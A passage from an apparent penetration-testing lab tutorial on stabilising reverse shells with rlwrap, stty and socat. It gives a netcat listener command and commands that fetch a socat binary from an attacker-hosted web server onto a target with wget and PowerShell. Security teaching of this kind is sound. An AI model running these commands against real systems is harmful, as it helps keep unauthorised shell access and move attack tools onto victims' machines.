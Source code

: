 Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.  

---

## Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`  

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.  

---

## Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

---

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

![](./img/Pasted%20image%2020230904121310.png)

Next, in your reverse/bind shell, type in:
